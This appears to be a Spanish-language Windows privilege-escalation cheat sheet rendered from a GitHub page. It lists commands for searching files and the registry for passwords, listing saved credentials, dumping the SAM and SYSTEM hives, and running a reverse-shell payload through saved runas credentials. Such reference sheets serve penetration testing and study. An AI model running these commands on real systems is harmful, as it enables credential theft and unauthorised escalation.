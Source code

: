 ### **Permisos y binarios**
```Powershell
icacls <ruta_directorio> #Comprueba los permisos de un archivo o directorio
cacls "C:\Program Files\Unquoted Path Service" #Para versiones mas antiguas de windows
cmdkey /list #Revisar credenciales Administrador de credenciales de Windows
runas /savecred /user:admin C:\PrivEsc\reverse.exe #Ejecutar payload con credenciales Administrador de credenciales
runas /user:admin cmd.exe #Ejecuta cmd con otro usuario con las credenciales
dir /a-r-d /s /b #Muestra todos los archivos con permisos de escritura
dir C:\*.txt /S /P #Lista todos los archivos.txt y subdirectorios
where /R C:\ *.txt #Lista todos los archivos .txt a partir del directorio C:\
accesschk.exe /accepteula -uwcqv "Authenticated Users" * #Listar permisos de directorio y archivos con accesschk de sysinternal
findstr /spin "password" *.* #Busca la palabra passwd dentro de todos los archivos
findstr /si password *.xml *.ini #Busca arhcivos con el contenido de password
winPEAS.exe quiet filesinfo userinfo #Listar info usuarios
winPEAS.exe quiet searchfast filesinfo #Listar info archivos importantes
#Ubicación fichero SAM y SYSTEM
C:\Windows\System32\config\SAM #Revisar fichero SAM
C:\Windows\System32\config\SYSTEM #Revisar fichero SYSTEM
#Backup SAM y SYSTEM
C:\Windows\Repair
C:\Windows\System32\config\RegBack
#Desencriptar SAMY y SYSTEM con pwdump.py o secretsdump.py
#Obtener SAM y SYSTEM para persistencia siendo Administrador
reg save HKLM\SAM SAM.backup
reg save HKLM\SYSTEM SYSTEM.backup
```

### **Registros de windows**
```Powershell
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run #Revisar programa que inicia windows al arrancar
reg query HKLM /f password /t REG_SZ /s #Buscar contraseñas en los registros
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon" #Buscar credenciales inicio de sesión
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated #Revisar privilegios ejecutable MSI HKCU 0x1
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated #Revisar privilegios ejecutable MSI HKLM 0x1
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s #Credenciales Putty
```

### **Autenticación y detalles de sesion**
```Powershell
set #Muestra las variables del entorno
klist #Muestra todos los tickets activos de kerberos
klist sessions #Muestra todas las sesiones de inicio de sesion activas
klist tgt #Muestra toda la información acerca de TGT de Kerberos
```

